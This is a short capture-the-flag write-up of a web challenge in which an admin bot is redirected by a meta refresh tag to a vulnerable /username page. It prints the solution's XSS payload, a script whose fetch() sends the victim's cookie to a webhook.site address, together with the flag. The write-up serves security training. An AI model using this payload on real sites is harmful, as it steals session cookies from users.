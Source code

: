 # Web - Noscript
Solved by **vicevirus**

## Question
Ignite it to steal the cookie!

## Solution
There's an XSS vulnerability in `/username` endpoint but problem is the bot wont visit the endpoint. \

We can redirect the bot to `/username` using HTML  `<meta>` tag and then it will visit our XSS payload and get us the cookie.

Set the username to:\
```
<script>fetch('https://webhook.site/9dc131ee-4266-4339-b1d7-7956ba38ade2/'+document.cookie, {mode: 'no-cors'})</script>
```

Then set the profile to:\
```
<meta http-equiv="refresh" content="0; url=/username/390f94bf-4011-4814-8f7c-4c64e37810ab">
```

and then report it.

### Flag
`FLAG{n0scr1p4_c4n_be_d4nger0us}`
